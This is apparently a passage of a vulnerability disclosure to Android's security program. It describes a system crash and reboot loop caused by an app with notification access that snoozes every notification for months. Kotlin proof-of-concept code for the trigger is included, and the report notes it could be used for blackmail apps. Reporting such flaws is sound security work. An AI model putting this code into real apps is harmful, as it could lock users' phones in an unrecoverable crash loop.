 **In other words, someone with bad intentions has way to use this vulnerability to develop malicious applications that can blackmail others.** For the average user, it is difficult to recover from this reboot loop.

#### Upload file

> You can add a file to your report to provide additional information on the vulnerability. Max file size is 50MB.

……

### The cause

#### Please specify the steps to reproduce the issue, including sample code where appropriate. Please be as detailed as possible.

Any application can cause a system crash in just two steps. The sample code has been included in a complete Android Studio project attatched below.

Step 1: Please allow notification access for the app. Then the implementation of `NotificationListenerService` can be running.

```kotlin
private fun startNotificationAccessSetting(context: Context) = try {
    context.startActivity(Intent(Settings.ACTION_NOTIFICATION_LISTENER_SETTINGS).apply {
        addFlags(Intent.FLAG_ACTIVITY_NEW_TASK)
    })
    true
} catch (e: ActivityNotFoundException) {
    try {
        context.startActivity(Intent().apply {
            addFlags(Intent.FLAG_ACTIVITY_NEW_TASK)
            component = ComponentName(
                "com.android.settings",
                "com.android.settings.Settings\$NotificationAccessSettingsActivity"
            )
            putExtra(":settings:show_fragment", "NotificationAccessSettings")
        })
        true
    } catch (e1: Exception) {
        false
    }
}
```

And the subclass is simple like this:

```kotlin
class TestCrashService : NotificationListenerService() {
    private val random = Random(System.currentTimeMillis())

    override fun onNotificationPosted(sbn: StatusBarNotification?) {
        sbn?.let {
            val duration = TimeUnit.DAYS.toMillis(random.nextLong(30, 365))
            snoozeNotification(it.key, duration)
        }
    }
}
```

